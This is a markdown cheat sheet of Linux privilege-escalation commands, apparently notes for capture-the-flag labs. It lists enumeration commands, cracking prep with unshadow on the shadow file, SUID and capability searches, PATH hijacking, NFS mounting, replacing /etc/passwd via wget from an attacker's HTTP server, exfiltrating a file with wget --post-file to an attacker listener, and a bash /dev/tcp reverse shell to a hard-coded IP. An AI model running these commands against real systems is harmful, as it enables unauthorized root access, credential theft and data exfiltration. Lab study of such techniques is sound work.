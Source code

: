 

<https://github.com/daniellowrie/Privy>

# Linux Privesc


https://martinkubecka.github.io/posts/thm/linux-privilege-escalation/

```
hostname

uname -a

/proc/version

/etc/issue

ps axjf

ps aux

env

sudo -l

id

/etc/passwd

history

ifconfig

ip route

netstat -ano

netstat -tulpn



```



unshadow passwd.txt shadow.txt > passwords.txt



## Find

```  
find / -type f -perm -04000 -ls 2>/dev/null


find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null


find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

find / -writable 2>/dev/null

```

## Capabilities

```
getcap -r / 2>/dev/null

```

## Cron

```
/etc/crontab

cat /etc/crontab
```

## PATH
```
echo $PATH

export PATH=/tmp:$PATH
```

## NFS
```
cat /etc/exports

showmount -e $target

mount -o rw 10.10.1.128:/home/backup tmp21




```


https://gtfobins.github.io/
https://lolbas-project.github.io/
https://www.exploit-db.com/

https://github.com/SolomonSklash/htbenum


## WGET 1 

### Attacker

```
openssl passwd -1 -salt salt pass123
```

localy add to the an example passwd file and make it available on http

```
python3 -m http.server
```

### Target
```
wget -O passwd http://192.168.1.108:8000/passwd
```

login or su to that user with the password 'pass123'

## WGET 2

### Attacker

open netcat to allow the target to push the file

```
nc -lvnp 1234
```

### Target

```
URL=attacker_ip:1234
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

# Reverse Shell
```
bash -i >& /dev/tcp/10.9.65.211/1234 0>&1
```
